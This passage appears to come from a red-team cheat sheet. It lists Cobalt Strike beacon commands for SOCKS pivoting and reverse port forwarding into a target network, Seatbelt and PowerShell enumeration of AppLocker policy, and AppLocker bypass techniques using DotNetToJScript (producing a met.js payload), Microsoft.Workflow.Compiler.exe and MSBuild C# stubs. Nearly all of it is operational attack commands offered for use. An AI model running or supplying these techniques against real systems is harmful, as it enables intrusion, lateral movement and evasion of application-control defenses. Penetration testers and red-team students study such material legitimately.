 ```
# access the target network
beacon> socks 1050
[...]

# target network access teamserver
beacon> rportfwd 9001 192.168.1.12 80
[...]

# msf use proxy
msf5> set Proxies socks4:127.0.0.1:1050
```

### AppLocker Bypass Execution

#### Enumerate

```
beacon> execute-assembly /tools/SeatBelt.exe -group=system

# using MS modules, for local policies, use -Local 
beacon> Get-AppLockerPolicyInfo | ft -AutoSize
beacon> Get-AppLockerPolicyInfo -Local | ft -AutoSize
```

#### Resources
- https://p0w3rsh3ll.wordpress.com/2020/05/15/how-to-view-an-applocker-policy-enforcement/

#### DotNetToJscript

Compile managed TestAssembly dll and run DotNetToJscript

```
.\DotNetToJScript.exe -l JScript -v v4 .\ExampleAssembly.dll -o met.js
```

#### WorkFlow Compiler LOLBAS AppLocker Bypass

Port C# program to [WorkflowCompiler-Reflective-PE-Runner.cs](../src/csharp/WorkflowCompiler-Reflective-PE-Runner.cs) 

Configure [WorkFlowCompiler.xml](../src/Misc/WorkFlowCompiler.xml) to use as input to Microsoft.Workflow.Compiler.exe. Or generate the XML using [this powershel](../src/powershell/WorflowCompilerXmlGenerator.ps1)

Useful for applocker bypass, similar to MSBuild.exe

Compile & Execute 

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe input.xml output.xml
```

#### MSBuild Execution

Use [Stub-MSBuild-CSharp-x64.xml](../src/Misc/Stub-MSBuild-CSharp-x64.xml) to configure C# program. 
